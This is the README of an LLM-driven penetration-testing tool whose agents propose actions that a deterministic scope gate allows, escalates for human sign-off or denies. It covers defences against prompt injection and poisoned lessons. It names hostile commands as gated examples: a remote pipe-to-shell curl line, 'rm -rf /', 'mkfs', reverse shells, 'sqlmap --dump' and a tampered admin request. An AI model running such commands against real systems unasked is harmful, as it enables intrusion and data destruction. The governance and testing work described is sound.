

# Brukal — trust-governed multi-agent penetration testing

Brukal is a **trust-governed, multi-agent LLM penetration-testing system**. Large
language models can plan and drive an engagement, but every action they propose
is ruled on by a **deterministic safety gate** before anything runs — so the
model *proposes* and the code *disposes*.

It is the reference implementation for the paper
*"Trust-Governed Multi-Agent Large Language Model Penetration Testing with
Risk-Constrained Action Gating."*

> **The core idea:** an LLM is untrusted input, not a trusted operator. Put a
> small, boring, prompt-injection-proof gate between the agents and the tools,
> govern each agent in proportion to how reliable it has proven to be, and you
> get autonomy you can actually account for.

**How Brukal compares to PentestGPT, XBOW, Burp, and Metasploit → [COMPARISON.md](COMPARISON.md).**

---

## What Brukal can do

- **Governed autonomous hunting.** It runs the whole engagement — recon,
  enumeration, and exploitation — itself, but every action passes the deterministic
  scope gate first: safe steps run automatically, irreversible/attack actions
  (reverse shells, `sqlmap --dump`, credential attacks) **escalate for one-tap
  human sign-off**, out-of-scope actions are **denied by construction**.
- **You steer with options, not prompts.** Each turn it offers a *ranked list* of
  next moves — pick a number, type your own gated command, or give an instruction
  and it re-plans. (`brukal solve`)
- **Runs on any model, including free + local.** Claude, **Groq (free 70B)**,
  OpenAI/OpenRouter/DeepSeek/GLM, or a local Ollama model — the guarantees live in
  the code around the model, so a weak model is *contained*, not trusted.
- **Learns over time — from *verified* wins only.** A two-tier lessons store keeps
  every attempt as a *candidate* but promotes it to the *trusted* (retrievable) tier
  only after a real verification confirmed it worked. A wrong or injected "lesson"
  can't poison future planning, and the gate still denies any out-of-scope action a
  lesson suggests (`brukal lessons`).
- **Looks up what it doesn't know.** An on-demand research sub-agent retrieves
  offensive knowledge (CVE/service/tech) from allowlisted sources — over the
  orchestrator's **own** egress, never the cage — and injects it as *labelled,
  untrusted* reference beside the local playbooks.
- **Knows when it's *solved*.** A deterministic verifier confirms a captured flag or
  foothold from the **real output of a gated command** — never the model's prose — so
  a run ends `solved` (verified) vs. merely handed off.
- **Reliable on any model.** Survives thinking models (`<think>` / `reasoning_content`),
  retries transient errors, coaches instead of aborting on a repeat, and shows live
  `thinking / running <cmd>` feedback so a long scan never looks frozen.
- **Parallel multi-agent.** A main agent fans independent tasks out to sub-agents
  that run concurrently — with the tamper-evident audit chain staying valid under
  concurrency.
- **Governed web testing.** Drive a real headless browser and craft/tamper HTTP
  requests, scope-checked by host (incl. vhosts like `nexus.htb`, auto-resolved in
  the cage) and logged (`brukal web`, `brukal solve` WEB actions).
- **A verifiable receipt for everything.** Every decision + result is written to a
  hash-chained log you can re-verify — optionally HMAC-signed (`BRUKAL_AUDIT_KEY`)
  so edits are detectable even with file-write access (`brukal verify`).

---

## Headline results

Reproduce them on any laptop — no Docker, network, API key, or target required:

```bash
python run_experiments.py
```

| Benchmark | Result |
|---|---|
| **Scope interception** | **100%** — every out-of-scope action denied before the cage (0 unsafe executions) |
| **Governed vs. ungated** | the gate prevents **every** unsafe execution an ungated agent would perform |
| **Multi-agent vs. single** | the verify agent catches hallucinated success; digests cut context by **~97%** |
| **Adaptive vs. fixed trust** | a proven-bad agent's *benign* action is ESCALATEd under adaptive trust, ALLOWed under fixed |

These headline metrics are properties of the deterministic gate, so they compute
identically in the fake cage or a live lab.

**Capability, on the same axis:** governance is not a capability tax. The
capability eval runs the *same* strategist + autonomous loop over a simulated box
twice — once through the gate, once without — so the only variable is the gate:

```bash
python run_eval.py          # or: brukal eval
```

| Scenario | Governed (foothold@ · root@ · scope-violations) | Ungated baseline |
|---|---|---|
| **acme-web** | foothold @ **5** · **0** violations | foothold @ 6 · **1** |
| **ssh-backup** | foothold @ **4** · **0** violations | foothold @ 5 · **1** |
| **corp-pivot** (multi-stage) | foothold @ **4** · root @ **6** · **0** violations | foothold @ 5 · root @ 8 · **2** |

Same intelligence, same foothold (and root, on the multi-stage box) — the governed
arm reaches every milestone in *fewer* executed steps (it never wastes a turn
wandering off-scope) and commits **zero** scope violations, while the ungated agent
drifts out of scope every run. That is "ahead on both axes" as a table, not a
slogan. (Drop a real external baseline — e.g. PentestGPT transcript metrics — in
with `run_eval.py --baseline pgpt.json`.)

---

## The five safety invariants

Everything in this repo exists to hold these five lines true:

1. **No LLM inside the gate.** Scope is enforced by deterministic code (string
   parsing, set membership, CIDR arithmetic, regex). A regex cannot be
   prompt-injected; an LLM guard could.
2. **Fail-closed.** Anything ambiguous, unparseable, or malformed is **DENIED**.
3. **Never trust an agent's self-report.** The gate re-reads the command itself —
   e.g. it re-scans *every* IP in the command, not just the declared target.
4. **One execution path.** Everything runs through `Executor.run()`, which gates
   first and logs always. Agents are handed the **Executor**, never the cage.
5. **Immutable scope, append-only audit.** Scope cannot widen at runtime; the
   hash-chained audit log cannot be edited undetectably.

---

## Architecture

```
scope.json ─► scope.py ─► gate.py ─► executor.py ─► kali.py ─► audit.py
(immutable   (frozen    (determin-  (THE ONE       (FakeKali/  (hash-
 policy)      Scope)     istic       DOOR:          DockerKali  chained
                        ALLOW/DENY/  gate→log→run)  cage,       ledger)
                        ESCALATE)                   no shell)
```

The two planes and the single door between them (a full-resolution SVG of this is
in [`docs/brukal-architecture.svg`](docs/brukal-architecture.svg)):



An agent emits **only text**: a schema-validated *Action Request*. The gate rules
on it in two stages:

- **Hard gate (deterministic, no LLM):** a logical AND of injection guard → parse
  → tool allowlist → target-in-scope → no-smuggled-host → rate-limit. It can only
  **DENY**, never widen.
- **Soft risk layer:** scores reversibility × blast-radius and, for a moderate
  action, **ESCALATEs** to a human for sign-off; an intrusive one is **DENIED**.

On top of that spine:

- **Multi-agent orchestration** in two forms: `brukal run` walks recon / exploit /
  verify agents over a **Pentesting Task Tree** (sequential or `--parallel`), sharing
  findings through an Obsidian-vault **blackboard** that stores *digests, not raw
  dumps*; `brukal auto` runs the same specialists as **planner + role executors** —
  the strategist plans each turn and routes the command to `recon`/`exploit`/`verify`,
  through the one gate with per-agent trust (see *Autonomous grounded loop* below).
- **The verify agent** (`agents/verify.py`) exists to catch *hallucinated success*:
  a claim is only `SUPPORTED` when an in-scope command actually executed and its
  real output backs it — otherwise it fails closed to `UNVERIFIED`.
- **Adaptive per-agent trust** (`trust.py`) — the paper's novel layer. Each agent
  carries a trust score `T_i ∈ [0,1]` that it *loses* on unreliable behaviour.
  `T_i` feeds **only the soft layer**, so a less-trusted agent's same command draws
  more scrutiny. It can never widen scope or touch the hard gate.
- **Hardened host matcher** (`hostmatch.py`) — the scope check finds *every* host in
  a command (URLs, IPv4/IPv6, and decimal/hex IP encodings), so an out-of-scope host
  can't be smuggled by spelling. Authorising a vhost also covers its `*.domain`.
- **Kernel-enforced scope** — the cage installs a scope-derived, default-drop
  **nftables** egress ruleset at startup (VPN-aware), so a command that slips past the
  Python gate still can't put a packet on the wire to an out-of-scope host.
- **Internet search & learning** (`research.py`) — a first-class, on-by-default
  capability: when a new CVE or service+version appears, Brukal **auto-researches** it
  from an allowlist of **verified sources** (NVD/CVE, Exploit-DB, GTFOBins, HackTricks)
  **plus a key-free general web search** (DuckDuckGo), folds the result into grounded
  context, and saves it as a **candidate lesson** (never trusted, so a poisoned page
  can't teach a bad habit). It runs **only in the control plane** (the orchestrator's
  own audited egress) — *never* through the cage, which stays scope-locked — and every
  result is labelled untrusted. Narrow it with `BRUKAL_RESEARCH_SOURCES`, or turn all
  egress off with `--no-research` / `BRUKAL_RESEARCH_SOURCES=off`.
- **Verification + verified-only learning** (`verify.py`, two-tier `lessons.py`) — a
  `solved` verdict and a promoted lesson require a confirmed result from real gated
  output, never prose; a poisoned lesson still can't cause an out-of-scope action.

---

## Prerequisites

| You want to… | You need |
|---|---|
| Run the tests, the benchmarks, or the fake cage | **Python 3.10+** and `pip`. Nothing else. |
| Drive real tools against a live target | **Docker** (Desktop or Engine) for the Kali cage |
| Use Claude as the brain | an **Anthropic API key** (`ANTHROPIC_API_KEY`) |
| Use a paid OpenAI-compatible brain | that provider's key (OpenAI, OpenRouter, Groq, DeepSeek, GLM…) |
| Use a **free, local, no-key** brain | **[Ollama](https://ollama.com)** with a model pulled (e.g. `ollama pull qwen2.5`) |

You only need a model to run the *agents* (`run` / `hunt` / `solve`). The gate,
the tests, the benchmarks, and `brukal exec` need no model and no key at all.

## Install

```bash
git clone https://github.com/sanjaygaire/brukal.git && cd brukal
python -m venv .venv && source .venv/bin/activate     # Windows: .venv\Scripts\activate
pip install -e ".[agents]"                            # installs the `brukal` command + agent deps
```

`pip install -e ".[agents]"` pulls in `anthropic` + `pydantic` and puts `brukal`
on your PATH. Add the `[tui]` extra for the live dashboard: `pip install -e ".[agents,tui]"`.
(Prefer not to install? Every command also works as `python brukal_cli.py <cmd> …`.)

## Commands

Type `brukal` on its own (in a terminal) for the **guided wizard** — it walks you
through target → brain → tool policy → auto/manual → hunt. Or use a subcommand
directly:

| Command | What it does |
|---|---|
| `brukal` | **Guided wizard**: asks the target, lets you pick the model, shows the tool policy (auto-run vs asks-you vs denied) + loaded playbooks, then auto or manual → hunts. |
| `brukal target <ip\|cidr>` | Set the engagement scope. Validates, /32-normalises a host, confirms anything broader, logs it. `--add` to accumulate. |
| `brukal solve [ip]` | **Interactive human-assisted hunt.** Ranked next-move options each turn — pick a number, type your own gated command (`c`), give an instruction to re-plan (`i`), or run safe options in parallel (`p`). Dangerous moves prompt `[y/N]`. Resumes from the vault. |
| `brukal auto [ip]` | **Autonomous grounded loop** with the live animated view. Multi-agent by default — the strategist plans, `recon`/`exploit`/`verify` specialists execute (one gate, per-agent trust); `--single-agent` for the classic loop. Drives the safe (reversible) steps itself, auto-renders discovered web services in Chrome, and pauses on irreversible/attack steps for your sign-off. |
| `brukal run <ip>` | The **multi-agent** engagement (recon · exploit · verify) over a task tree + blackboard. `--parallel [--workers N]` runs agents concurrently; `--tui` shows the live dashboard. |
| `brukal report [ip]` | Build a **pentest report** (severity-ranked findings + evidence + reproduce commands, Markdown + JSON) from the target's findings vault. `--show` prints it. |
| `brukal web <url>` | Send **one governed web request** (crafted `--method`/`--header`/`--body`), routed through the cage. `--chrome` renders with a real headless browser; `--host` authorises a vhost. The web analogue of `exec`. |
| `brukal shell <ip>` | Open a **governed interactive shell** in the cage — every line is gated + logged before it runs; state persists across lines. |
| `brukal exec <cmd> <target>` | Propose **one shell command** through the gate by hand (verdict + output). |
| `brukal lessons [search]` | View / add Brukal's **cross-session learned lessons** (`--add "…" --tags a,b`). |
| `brukal skills [list\|search\|add]` | List / search / install offensive **skill playbooks** (the untrusted reference library). |
| `brukal eval` | Run the **capability eval** (governed vs ungated, steps-to-foothold) — deterministic, no infra. |
| `brukal verify` | Re-walk the audit log and confirm the **hash chain is intact**. |
| `brukal hunt` | Older guided flow that runs the multi-agent engagement (kept for compatibility). |

Common flags: `--scope <file>` (which scope.json), `--fake` (no Docker — dry-run
the wiring), `--yes-authorised` (confirm authorisation for a live run),
`--provider` / `--model` (Claude / Groq / Ollama / OpenAI-compatible),
`--audit` / `--vault` (where to write). Add `-h` to any subcommand for its full options.

## Quickstart

```bash
# 1. run the test suite (198 tests, no infra, no key needed)
python -m pytest -q

# 2. reproduce the benchmark metrics (fake cage)
python run_experiments.py

# 3. drive the gate by hand against the fake cage — no model, no key
brukal exec --fake "nmap -sV 10.10.10.5" 10.10.10.5
```

### Running a live engagement

A live run executes real tools inside an isolated Kali container and is
deliberately gated behind an explicit authorisation flag — only ever point it at
systems you are authorised to test (see [`SECURITY.md`](SECURITY.md)).

```bash
# 1. bring up the cage (a Kali container with the full headless pentest arsenal,
#    ~600 tools; kernel egress-locked to scope at startup). First build is a few GB.
#    Bigger toolset: --build-arg KALI_METAPACKAGE=kali-linux-large  (adds a GUI stack)
docker compose -f docker/docker-compose.yml up -d --build

# 2. set scope to your authorised target (a bare host becomes /32; a CIDR
#    broader than one host asks for confirmation) and check it end to end
brukal target 10.10.10.5
brukal exec "nmap -sS -sV -Pn 10.10.10.5" 10.10.10.5     # one command, by hand

# 3. run the full multi-agent engagement (recon → exploit → verify, adaptive
#    trust, human sign-off on escalations). Needs ANTHROPIC_API_KEY.
export ANTHROPIC_API_KEY=sk-...
brukal run 10.10.10.5 --yes-authorised --tui    # --tui = live dashboard

# 4. review the audit trail and findings
brukal verify
#    findings + task tree land in runs/vault/  (open it in Obsidian)
```

> `brukal` is installed via `pip install -e .`; without installing, use
> `python brukal_cli.py <subcommand> ...`. To reach a lab target, attach your lab
> network to `brukal_isolated` in `docker/docker-compose.yml` and keep the cage
> off any internet-facing network.

#### Kernel-enforced scope (cage egress lock)

The Python gate enforces scope in software; the cage adds a **second, structural
line of defence at the kernel**. At startup the cage's entrypoint reads the mounted
`scope.json` and builds a default-drop **nftables** egress ruleset that allows
output only to the authorised CIDRs (plus loopback, established flows, one pinned
DNS resolver, and each `authorized_hosts` vhost resolved once at startup). Anything
else is logged (`brukal-egress-drop`) and dropped — so **even a command that slips
past the text gate cannot send a packet to a host outside scope.** It is
**fail-closed**: a missing or unparseable scope installs a drop-all ruleset and the
cage exits non-zero rather than coming up open.

- Prove it (cage up): `docker/verify_egress.sh brukal-kali 8.8.8.8 <in-scope-ip:port>`
  — asserts the out-of-scope host is dropped and the in-scope host is reachable.
- **Scope changes require a cage restart.** The ruleset is built at startup and is
  deliberately **not** runtime-widenable — that is the guarantee. After editing the
  mounted scope, `docker compose -f docker/docker-compose.yml restart kali`.
- Requires a host kernel with nftables and the `NET_ADMIN` cap (granted in compose).
  On a kernel without nftables support, set `BRUKAL_EGRESS_LOCK=0` to fall back to
  the software gate alone (you lose the kernel-enforced guarantee).

### Choosing the model (the brain)

Agents talk to a model through one small `propose()` interface, so Brukal runs on
Claude **or any OpenAI-compatible model** — including free local ones — with no
extra dependency. You don't have to remember flags: **`brukal solve` just asks.**

```
How should Brukal think? Pick the model it runs on:
  [1] Claude API (Anthropic) — best quality, needs an API key
  [2] Local model via Ollama — free, private, no key (e.g. qwen2.5)
  [3] Groq — FREE api key, very fast, strong models (e.g. llama-3.3-70b)
  [4] Other OpenAI-compatible — OpenAI / OpenRouter / DeepSeek / GLM / LM Studio
  [5] Advanced — type provider / model / base-url yourself
```

Pick 1 and it prompts (hidden) for your key if it isn't already set; pick 2 and it
asks which local model; pick **3 (Groq)** and it prompts (hidden) for a free
`GROQ_API_KEY` (get one at [console.groq.com/keys](https://console.groq.com/keys))
and defaults to `llama-3.3-70b-versatile` — a strong, fast, free brain. To skip the
prompt (e.g. in scripts), pass `--provider` / `--model` or set `BRUKAL_PROVIDER` /
`BRUKAL_MODEL` and it uses those instead.

**Option A — Claude API (best quality).** Get a key from the Anthropic console and
export it:

```bash
export ANTHROPIC_API_KEY=sk-ant-...        # Windows PowerShell: $env:ANTHROPIC_API_KEY="sk-ant-..."
brukal solve                               # pick [1]; default model claude-sonnet-5
```

**Option B — free local model, no key (Ollama).** Nothing leaves your machine:

```bash
# 1. install Ollama from https://ollama.com, then pull a model:
ollama pull qwen2.5
# 2. run Brukal and pick [2] (default model qwen2.5), or non-interactively:
brukal solve <target> --provider ollama --model qwen2.5
```

> **WSL note:** if Ollama runs on Windows but you run Brukal inside WSL, WSL's
> `localhost` isn't Windows'. Start Ollama with `OLLAMA_HOST=0.0.0.0` and point
> Brukal at the Windows host IP: `--base-url http://<windows-ip>:11434/v1` (or
> just install Ollama inside WSL).

**Option C — Groq (free, fast, strong).** A free key runs a 70B model at near-instant
speed — the best capability-per-effort for a hosted brain. Pick `[3]` (it prompts,
hidden, for the key), or set it yourself:

```bash
export GROQ_API_KEY=gsk_...                 # free at https://console.groq.com/keys
brukal solve <target> --provider groq --model llama-3.3-70b-versatile
```

**Option D — other hosted providers.** Pick `[4]` and it asks for the provider and
key, or set them yourself:

```bash
export OPENROUTER_API_KEY=...   ; brukal solve <target> --provider openrouter --model z-ai/glm-4.6
export OPENAI_API_KEY=...       ; brukal solve <target> --provider openai     --model gpt-4o-mini
export GROQ_API_KEY=...         ; brukal solve <target> --provider groq       --model llama-3.1-8b-instant
```

Supported providers: `anthropic` (default), `ollama`, `lmstudio` (both free/local,
no key), `openai`, `openrouter`, `groq`, `deepseek`, `glm`/`zhipu`, and
`openai-compatible` (any endpoint via `--base-url`). Everything is also settable
via `BRUKAL_PROVIDER` / `BRUKAL_MODEL` / `BRUKAL_BASE_URL`.

### Human-assisted solving (governed copilot)

`brukal solve` is an interactive loop that acts like a teammate, not a tool
dispatcher. Run it with no target and it **asks** for one (offering to authorise
a single out-of-scope host for the session), then **asks which model** to use
(§ Choosing the model) and **how to work the plan**:

- **Manual** (default) — Brukal proposes each step; **you** approve every command.
- **Auto** — Brukal **runs the safe (ALLOW) enumeration steps itself** and pauses
  for anything the gate escalates or that needs your hands (exploitation, a shell,
  a flag). Toggle any time with `a` (menu) or `auto` / `manual-mode` (typed);
  Ctrl-C during an auto run drops you back to manual.

It lays out a **shortest-path plan** — recon → enumeration → exploitation →
priv-esc — and works it step by step, naming the current PHASE and GOAL and
reasoning from what it has learned. You `run` a suggested command (through the
gate), record a `manual` step you did yourself, add a `note`, `ask` a question, or
re-`plan`. Brukal reasons and logs; you do the ungoverned exploitation on your own
authority — a suggested command is **never** a bypass, it still goes through the
gate.

Every finding is written to a per-target **Obsidian vault** (`runs/vault/<target>/`
— `engagement.md`, `plan.md`, per-agent notes, `findings.jsonl`), so a later
`brukal solve <target>` **resumes with memory** instead of asking from scratch.
Works with any provider, so you can copilot a box on a free local model:

```bash
brukal solve                       # asks target → model → manual/auto, plans, walks it
brukal solve 172.20.0.3 --yes-authorised --scope runs/juice.json \
    --provider ollama --model qwen2.5     # flags skip the model prompt
```

### Autonomous grounded loop (`brukal auto`)

`brukal auto <target>` is the same engine without the menu: Brukal **drives the
safe, in-scope enumeration by itself** and hands back cleanly when it needs you.
It is *grounded* — every next step is reasoned only from the **real, gate-executed
tool output**, never a claimed result — which shuts down the two classic failure
modes of autonomous LLM pentesters:

- **No hallucinated success.** A step counts as progress only if a command
  actually ran through the gate. A boast in the model's prose can stop the loop
  (safe) but can never advance it (that needs a real, in-scope, approved run).
- **No aimless spinning.** A re-proposed command, or a run of gate-blocked
  proposals, ends the loop as `stalled` instead of looping forever.

It runs until it hits a **manual** step (intrusive exploitation — your job), an
**escalation** (needs your sign-off — it never self-approves), a **stall**, or the
`--max-steps` budget. Governance is unchanged: every command still goes through the
one gate, and nothing out of scope ever executes.

**Mode-aware methodology (`methodology.py`).** `auto` first picks the right discipline
for the target: a URL/hostname is a **web app** and drives the **OWASP WSTG** checklist
(information gathering → configuration → authentication → session → **input
validation/injection** → **access control/IDOR** → error handling → crypto → business
logic → client-side, each item tagged with its WSTG id); a bare IP is a **box** and
drives the machine flow (full enumeration → per-service enum → web enum → foothold →
privilege escalation → loot the flags). Force it with `--web` / `--box`. The checklist
is injected as the **top-priority planner reference** and, if a weak model returns a
thin plan, *becomes* the plan — so even a cheap model follows a complete, auditable
methodology from a recognised standard instead of wandering.

**Multi-agent by default — planner + role executors.** `auto` runs the multi-agent
orchestrator: the **strategist stays the planner** (it sets the phase + goal each
turn, carrying the full grounded context — verified findings, what's been tried, the
objective), and the phase's **specialist agent generates the command** — `recon`
enumerates, `exploit` attacks, `verify` confirms. The live view shows who's acting
(`🔨 exploit: …`). Crucially, this adds *proposers*, never authority: routing is a
**deterministic keyword match on the phase (no LLM, so target text can't steer it)**,
every specialist runs through the **same one door** (`Executor.run → gate → cage`),
and each command is attributed to its role so **per-agent trust** modulates that
role's future soft-risk scoring — a specialist that keeps getting denied draws more
scrutiny, but can never widen scope or skip the hard checks. A specialist that
produces nothing valid falls back to the strategist's own command (no dead turn) and
takes a trust hit. Pass `--single-agent` (or `BRUKAL_SINGLE_AGENT=1`) for the classic
single-strategist loop.

**Governance dial — governed (default) vs. `--full-send`.** Brukal has *two* layers of
governance, and only the soft one is adjustable:

- The **soft layer** — the escalation pauses + per-agent trust — is a convenience/
  accountability dial. By default `auto` **pauses for your sign-off** on irreversible
  or attack-grade moves (reverse shells, credential attacks, `sqlmap --dump`); it
  auto-runs only reversible ones. Pass **`--full-send`** (or `BRUKAL_FULL_SEND=1`) to
  **auto-approve every *in-scope* action** — maximum autonomy, no pauses. Since your
  `scope.json` *is* your authorisation, "full send within scope" is full attack power
  against your authorised target.
- The **hard gate** — scope + one execution path + injection-parse + fail-closed — is
  **not** adjustable and `--full-send` does **not** touch it: an out-of-scope command
  is still `DENIED` and never runs (see `test_full_send_still_denies_out_of_scope`).
  That wall is what keeps Brukal an authorised-pentest tool rather than an untargeted
  weapon, and removing it would add zero capability against a target that's already in
  scope. So there is no "ignore scope" switch, by design (it's one of the five
  invariants). Full send unleashes power *inside* your authorisation, never beyond it.

**Auto hands the wheel to you — it doesn't just quit.** When the loop stops because
it has run out of *safe autonomous* moves (the weak-model case: a stall, or a
manual/escalation step), and you're at a terminal, Brukal drops straight into the
interactive menu **on the same session** — every finding, note, plan, and lesson
intact — so you can supply the next insight (a vhost fuzz, an exploit) without
re-launching. Pass `--no-handoff` (or set `BRUKAL_NO_HANDOFF=1`) to keep the old
stop-and-exit behaviour; non-interactive runs (piped/CI) always just stop.

**Every hunt ends with its brain spend.** A one-line token/cost tally is read from
the model client and printed at the end, e.g.
`brain spend — deepseek-chat: 12 call(s) · 48,300 in / 4,100 out tokens · ~$0.0176`.
Local models (Ollama/LM Studio) show `cost: n/a`. Prices live in `_PRICING` at the
top of `brukal/llm.py` — one dict to edit as rates change.

```bash
brukal auto 10.10.10.5 --yes-authorised --scope scope.htb.json --max-steps 15
brukal auto 10.10.10.5 --provider deepseek --model deepseek-chat   # cheap, strong brain
brukal auto --fake                          # try the whole loop with no Docker
brukal auto 10.10.10.5 --no-handoff         # stop and exit instead of the menu
brukal auto 10.10.10.5 --single-agent       # classic single-strategist loop (no specialists)
brukal auto 10.10.10.5 --full-send          # unleash: auto-approve ALL in-scope actions
```

### Governed web testing (`brukal web`, WEB actions)

Web work — render a JS app, craft or tamper an HTTP request, fill a field with a
payload, follow a redirect to a vhost — goes through the **same** gate as shell
commands: the action's **host** must be in scope (an IP, or an explicitly
authorised hostname like `nexus.htb`, set at scope time — never DNS-resolved at
runtime), the scheme must be http/https, and every action is logged.

```bash
# a governed request, routed through the cage (reaches HTB over the VPN):
brukal web http://nexus.htb/ --scope scope.htb.json

# render with a REAL headless browser (JS executed) inside the cage:
brukal web http://nexus.htb/ --chrome --scope scope.htb.json

# craft / tamper a request (headers + body are attack payloads, NOT sanitised):
brukal web http://nexus.htb/api --method PUT \
    --header "X-Forwarded-For: 127.0.0.1" --body '{"admin":true}' --scope scope.htb.json
```

Inside `brukal solve`/`auto` the strategist proposes **`WEB:` actions**
(`get`/`render`/`request`/`fill`/`click`/`screenshot`/`intercept`) that route
through the governed browser automatically — an out-of-scope web action is denied
exactly like a shell command. Only *scope* and *scheme* are enforced; a SQLi/XSS
payload goes straight through, because that is the attack.

**Attack-surface crawl (`webmap.py`).** The moment a web service is discovered,
`auto` reflexively **crawls** the site — a bounded, breadth-first, *in-scope* spider:
the cage fetches each page (scope-locked egress), and the returned HTML is parsed
**in the control plane with no network I/O** (`html.parser`) into a structured map —
every link, **form and its inputs**, and **query parameter**. The crawl is confined
to the seed host + authorised scope and its page/depth budget (it can neither wander
off-target nor run forever), and a gate rate-limit simply ends it early with whatever
it mapped. That map is then folded into the planner's grounded context, so the model
(even a cheap one) reasons over the *real* endpoints and parameters instead of
guessing them — the single biggest lever for turning a weak model into a methodical
web tester. Every fetched URL is still gate-checked; the crawler adds coverage, never
a way around scope.

**Governed vuln probing (`webprobe.py`).** The crawl map is then turned into a
concrete **probe checklist** — deterministically, so a weak model can't *forget* to
test a parameter. `plan_probes()` emits the exact tool commands against the real
surface: **passive** fingerprint + read-only scans per web root (`whatweb`, `nuclei`,
`nikto`) and **active** injection tests per discovered parameter and form (`sqlmap`,
`dalfox`). Governance is entirely the gate's, unchanged: the passive scanners score
*reversible* and **auto-run** (the loop drains them one-per-turn the moment the site
is mapped), while the active injection tools score *irreversible* and **ESCALATE for
your sign-off** — or run under `--full-send`. The active probes are also handed to
the planner as concrete "suggested probes" against real parameters, so the exploit
agent proposes targeted injection instead of guessing. Probe output is scanned for
**vulnerability signals** (`sqlmap` *is vulnerable*, `nuclei [critical]`, `nikto`
findings, CVE ids), which surface as top highlights for the Verifier/operator. The
result: methodical coverage from code + targeted exploitation from the model, every
command through the one gate.

**Findings + report (`findings.py`, `report.py`).** Probe output doesn't just scroll
past — vulnerability signals are captured as **structured, deduplicated findings**
(`findings.py`): title, severity, endpoint, parameter, the **real evidence line**, and
the exact **reproducing command**. Findings are two-tier like lessons — an explicit
signal (`sqlmap` *is vulnerable*, a Verifier-confirmed foothold/flag) is **confirmed**,
a heuristic match is a **candidate** a human should verify — so a reviewer is never
handed a false positive dressed as fact. They persist to an append-only `findings.jsonl`
in the engagement vault. At the end of an `auto` run Brukal writes a **`report.md` +
`report.json`** deliverable (severity-ranked findings with evidence, the attack-surface
summary, engagement metadata, model spend, and audit-chain status), and
`brukal report <target>` regenerates it from the vault any time. This is what turns
"Brukal found things" into an audited report an organisation can hand to its engineers.

### Governed interactive shell (`brukal shell`)

When you do the hands-on exploitation, you no longer have to leave Brukal to do
it. `brukal shell <target>` opens a **stateful shell in the cage** where every
line you type is ruled on by the gate and written to the audit log *before* it
runs — so work that used to happen off-ledger now happens on it.

```bash
brukal shell 10.10.10.5 --scope scope.htb.json      # --fake to try it without Docker
```

- **State persists** across lines (`cd`, exported vars, background jobs, a caught
  reverse shell) — unlike one-shot `exec`.
- **Scope containment on every line:** a command reaching for an out-of-scope host
  (even hidden behind a pipe, e.g. `curl http://8.8.8.8 | sh`) is **DENIED** — a
  session can't be used to pivot off your authorised target.
- **Destructive-command guard:** box/cage-wrecking commands (`rm -rf /`, `mkfs`,
  `shutdown`, …) **ESCALATE** for your explicit sign-off; everything else runs.
- **Fully audited:** every line + its output is on the hash-chained ledger, so
  the exploitation phase is as accountable as recon.

All five invariants hold: no LLM in the session gate, fail-closed, the gate
re-reads each line, one execution path (you get the `GovernedSession`, never the
raw shell), and the session is bound to an in-scope target it cannot widen.

### HTB / lab boxes (VPN-connected cage)

The cage ships with a wider **enumeration** allowlist (`ffuf`, `feroxbuster`,
`smbmap`, `enum4linux`, `snmpwalk`, `sslscan`, …) and an OpenVPN client so it can
reach a VPN-gated lab. Drop your HackTheBox `.ovpn` at `docker/vpn/config.ovpn`
(gitignored), rebuild, and the cage brings the tunnel up automatically:

```bash
cp ~/Downloads/lab.ovpn docker/vpn/config.ovpn
docker compose -f docker/docker-compose.yml up -d --build     # cage connects the VPN
brukal target 10.10.10.5 --scope scope.htb.json               # scope to YOUR box
brukal solve 10.10.10.5 --yes-authorised --scope scope.htb.json --provider ollama --model qwen2.5
```

It's a **governed recon/enum copilot**, not an autopwn tool — enumeration runs in
the cage (gated), and you do the exploitation yourself and report back. Use
`scope.htb.json` and narrow `authorized_cidrs` to the single box you're testing.

---

## Configuring scope

`scope.json` is the single source of truth, read once at startup and treated as
read-only while running:

```json
{
  "engagement": "brukal-lab-01",
  "authorized_cidrs": ["10.10.10.0/24", "127.0.0.1/32"],
  "authorized_hosts": ["nexus.htb"],
  "allowlisted_tools": ["nmap", "gobuster", "nikto", "whatweb", "curl", "dig"],
  "rate_limit_per_min": 30
}
```

`authorized_hosts` (optional) authorises web vhosts by name for the web surface —
matched deterministically, never DNS-resolved at runtime. Keep `allowlisted_tools`
in sync with the tools installed in `docker/Dockerfile.kali`.

---

## Repository layout

```
brukal/
├── scope.py          # frozen engagement policy; stdlib CIDR matching (+ *.vhost)
├── hostmatch.py      # finds EVERY host in a command (URL/IPv6/decimal-hex smuggle)
├── gate.py           # deterministic hard gate + soft risk layer (+ trust hook)
├── risk.py           # reversibility × blast-radius scoring
├── executor.py       # THE ONE DOOR: gate → log → (maybe) run
├── kali.py           # FakeKali / DockerKali cage — no shell, container-side timeout
├── audit.py          # hash-chained, tamper-evident log (+ optional HMAC)
├── trust.py          # adaptive per-agent trust T_i  (feeds only the soft layer)
├── schema.py         # the Action Request the model must emit
├── llm.py            # provider-agnostic client (Claude / Groq / Ollama / OpenAI-compat)
├── orchestrator.py   # multi-agent driver — sequential + ParallelOrchestrator
├── blackboard.py     # Obsidian-vault shared memory (digests, scoped reads)
├── tasktree.py       # the Pentesting Task Tree
├── assist.py         # human-assisted solver (`brukal solve`) + `brukal auto`
├── loop.py           # the grounded agentic loop (autonomous, gate-governed) + verify
├── verify.py         # deterministic 'solved' — flag/foothold from real gated output
├── skills.py         # static red-team playbooks (untrusted reference)
├── lessons.py        # two-tier cross-session memory: candidate vs verified-trusted
├── research.py       # on-demand control-plane retrieval (untrusted web reference)
├── web.py            # governed web surface: WebAction, check_web, GovernedBrowser
├── methodology.py    # mode-aware playbook: OWASP WSTG (web) / enum→privesc (box)
├── webmap.py         # attack-surface crawl: HTML->forms/params/links (stdlib, no egress)
├── webprobe.py       # map->probes: passive scans + active injection tests (governed)
├── findings.py       # structured, deduped, severity-ranked vuln findings (evidence-backed)
├── report.py         # findings + metadata -> Markdown / JSON deliverable
